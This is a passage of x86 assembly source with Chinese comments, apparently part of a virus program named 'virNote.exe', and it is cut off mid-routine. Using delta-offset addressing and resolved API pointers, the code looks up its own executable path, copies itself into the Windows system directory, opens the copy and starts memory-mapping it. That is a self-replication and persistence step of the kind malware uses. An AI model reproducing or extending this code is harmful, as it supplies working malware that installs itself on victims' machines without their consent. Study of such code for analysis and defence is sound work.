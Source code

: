 ```assembly
        mov al,byte ptr [ebp+szBuffer+esi]
        .break .if al==0
        mov byte ptr [ebp+@destFile+edi],al
        inc esi
        inc edi
    .endw
    mov esi,0
    .while TRUE
        mov al,byte ptr [ebp+lpszNewName+esi]
        .break .if al==0
        mov byte ptr [ebp+@destFile+edi],al
        inc esi
        inc edi
    .endw
    mov byte ptr [ebp+@destFile+edi],0

    ;取当前程序运行路径c:\winnt\virNote.exe
    mov eax,50h
    push eax
    lea eax,[ebp+szBuffer]
    push eax
    xor eax,eax
    push eax
    call [ebp+_GetModuleFileName]

    ;将当前程序运行文件szBuffer拷贝到系统目录@destFile
    mov eax,FALSE
    push eax
    lea eax,[ebp+@destFile]
    push eax
    lea eax,[ebp+szBuffer]
    push eax
    call [ebp+_CopyFile]

    ;打开命名后的新文件@destFile
    push NULL
    mov eax,FILE_ATTRIBUTE_ARCHIVE
    push eax
    mov eax,OPEN_EXISTING
    push eax
    push NULL
    mov eax,FILE_SHARE_READ or FILE_SHARE_WRITE
    push eax
    mov eax,GENERIC_READ
    push eax
    lea eax,[ebp+@destFile]
    push eax
    call [ebp+_CreateFile]

    mov [ebp+hFile],eax   ;将文件句柄送入相应变量

    push NULL
    push eax
    call [ebp+_GetFileSize]
    mov [ebp+dwFileSize],eax

    ;建立内存映射
    xor eax,eax
    push eax
    push eax
    push eax
    mov eax,PAGE_READONLY
    push eax
```